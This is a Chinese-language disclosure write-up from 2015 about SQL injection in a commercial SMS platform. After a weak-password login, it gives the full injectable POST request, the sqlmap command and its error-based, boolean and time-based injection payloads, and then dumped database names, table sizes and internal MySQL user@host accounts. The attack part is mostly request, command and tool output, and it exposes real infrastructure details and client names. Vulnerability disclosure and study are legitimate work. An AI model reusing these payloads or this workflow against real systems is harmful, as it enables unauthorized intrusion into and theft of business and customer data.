




# 某平台SQL注入影响数十万企业

Feei <feei#feei.cn> 01/2015

> 一家短信提供商，影响涉及各行各业包括金融证券、酒店、医药、互联网等数十万企业的短信的发送记录、发送权限

## 0x01 漏洞入口

由之前扫到的弱口令，登陆进来后找到以下注入点：

```bash
POST  
http://211.***.***.62/Statistics/SumStatistics/GetSumDepartment?startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true HTTP/1.1  
Host: 211.***.***.62  
Connection: keep-alive  
Content-Length: 76  
Pragma: no-cache  
Cache-Control: no-cache  
Accept: application/json, text/javascript, */*; q=0.01  
Origin: http://211.***.***.62  
X-Requested-With: XMLHttpRequest  
DNT: 1  
Referer: http://211.***.***.62/Statistics/SumStatistics/Index  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6  
Cookie: 替换为登陆后的COOKIE  
MenusBlockIDs=10010,10011,10012,10013,10014,17000,12000,13000,14000,15000,18000,18200; ControllerName=SumStatistics
startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true
```

保存为`header`文件，使用`sqlmap`跑下。

`./sqlmap.py -r header --threads 10 --dbs -batch`

```bash
Place: POST  
Parameter: startTime  
Type: boolean-based blind  
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)  
Payload: startTime=-6517' OR (4508=4508)#&endTime=2015-01-25&mstype=SMS&on  
Time=true  
Type: error-based  
Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause  
Payload: startTime=2015-01-25' AND (SELECT 6733 FROM(SELECT COUNT(*),CONCAT(0x716c6f6371,(SELECT (CASE WHEN (6733=6733) THEN 1 ELSE 0 END)),0x716f697771,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '  
kjoG'='kjoG&endTime=2015-01-25&mstype=SMS&onTime=true  
Type: AND/OR time-based blind  
Title: MySQL > 5.0.11 AND time-based blind  
Payload: startTime=2015-01-25' AND SLEEP(5) AND 'JYnp'='JYnp&endTime=2015-  
01-25&mstype=SMS&onTime=true
```

## 0x02 漏洞证明

涉及16个数据库

**DATABASES(16)**
```
[*] 400_gsms
[*] 400_list
[*] commission
[*] gsms2_init
[*] gsms_init
[*] information_schema
[*] list2_init
[*] list_init
[*] mos2_gsms
[*] mos_gsms
[*] mos_gsms2_1
[*] mos_gsms_2
[*] mos_list2_1
[*] mysql
[*] performance_schema
[*] test
```

影响千万级数据

```
Database: mos_gsms2_1
+-------------------------------+---------+
| Table | Entries |
+-------------------------------+---------+
| gsms_msg_ticket | 4302497 |
| gsms_contact | 4191441 |
| gsms_statereport | 4031478 |
| gsms_deduct_record | 599589 |
| gsms_user_role | 360443 |
| gsms_user_role20130408 | 360110 |
| gsms_user_role20130409 | 360052 |
| gsms_msg_frame | 359263 |
| gsms_msg_pack | 241054 |
| gsms_non_white_list | 158632 |
| gsms_red_list | 124257 |
| gsms_account_carrier_price | 100360 |
| gsms_user | 58597 |
| gsms_user20130403 | 58523 |
| gsms_user20130401 | 58518 |
| gsms_user20130312 | 58275 |
| gsms_biztype_specnum | 53074 |
| gsms_enterprise_apply_detail | 49971 |
| gsms_user_business_type | 47656 |
| gsms_enterprise_specnum_bind | 39635 |
| gsms_user_account_bind | 33256 |
| gsms_business_type | 13511 |
| gsms_capital_account | 12545 |
| gsms_enterprise_apply | 12542 |
```
**Users(56)**
```bash
[*] 'cactiuser'@'192.168.10.89'
[*] 'censerver'@'192.168.10.89'
[*] 'censerver'@'localhost'
[*] 'chengxuan'@'192.168.%'
[*] 'chengxuan'@'localhost'
[*] 'innotop'@'192.168.10.83'
[*] 'monitor'@'192.168.10.89'
[*] 'monyog'@'192.168.%'
[*] 'monyog'@'localhost'
[*] 'moshengkuo'@'192.168.%'
[*] 'mscheck'@'127.0.0.1'
[*] 'mscheck'@'192.168.%'
[*] 'mscheck'@'localhost'
[*] 'private'@'192.168.10.86'
[*] 'private'@'localhost'
[*] 'program'@'172.16.200.10'
[*] 'program'@'172.16.202.101'
[*] 'program'@'172.16.202.102'
[*] 'program'@'172.16.202.203'
[*] 'program'@'183.232.65.44'
[*] 'program'@'192.168.%'
[*] 'program'@'192.168.10.100'
[*] 'program'@'192.168.10.101'
[*] 'program'@'192.168.10.102'
[*] 'program'@'192.168.10.98'
...
[*] 'program'@'localhost'
[*] 'repl'@'192.168.10.%'
[*] 'repl'@'192.168.10.130'
[*] 'root'@'%'
[*] 'root'@'192.168.%
[*] 'root'@'localhost'
[*] 'super'@'192.168.%'
[*] 'super'@'192.168.10.86'
[*] 'super'@'localhost'
[*] 'wanglianguang'@'%'
[*] 'wanglianguang'@'192.168.%'
[*] 'wanglianguang'@'localhost'
[*] 'xiaozhuan'@'192.168.%'
[*] 'xiaozhuan'@'localhost'
```

## 0x03 漏洞影响










从结果看应该所有产品数据库都在，光短信库用户就有50000多家，短信数量千万级。还有400等产品

涉及厂商（短信发送数较多的）
- 各大银行
- 东风悦达起亚
- 安利中国
- BMW中国
- 人人快递网
- 中通物流
- 我要旅行网
- 娃哈哈集团
- GXG
- 唯品会
- 酷讯
- ...

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。
